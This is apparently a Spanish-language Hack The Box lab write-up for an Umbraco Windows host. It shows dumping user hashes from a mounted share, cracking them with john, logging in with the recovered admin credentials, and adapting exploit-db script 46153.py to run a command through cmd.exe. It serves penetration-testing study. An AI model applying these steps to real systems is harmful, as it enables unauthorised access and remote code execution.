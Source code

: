 ## Vulnerability Assessment {-}

### Analyzando el mount {-}

```bash
cd /mnt/nfs
ls
cd App_Browsers
cd ..
cd App_Data
ls
```

Aqui vemos un fichero umbraco.config y un Umbraco.sdf. Miramos lo que contienen

```bash
cat umbraco.config
cat Umbraco.sdf
strings Umbraco.sdf | less -S
```

Aqui vemos usuarios con hashes.

### Crack hash con john {-}

Copiamos el hash en un fichero y lo crackeamos con john

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

Ya tenemos una contraseña. Nos connectamos en el panel de authenticacion.

```bash
user: admin@htb.local 
pwd : baconandcheese
```

### Abusando de Umbraco {-}

Ahora que hemos ganado acceso al dashboard de Umbraco, tenemos que encontrar la via para ganar acceso al systema. Como ya hemos encontrado 
exploits en la **exploit-db**, vamos a utilizar una de ellas.

```bash
searchsploit umbraco
searchsploit -m 46153.py
mv 46153.py umbraco_exploit.py
vi umbraco_exploit.py
```

Aqui le ponemos los datos necessario

```python
login = "admin@htb.local"
password = "baconandcheese"
host = "http://10.10.10.180"

#en el payload
proc.StartInfo.FileName = "cmd.exe"
cmd = "/c ping 10.10.14.8"
```
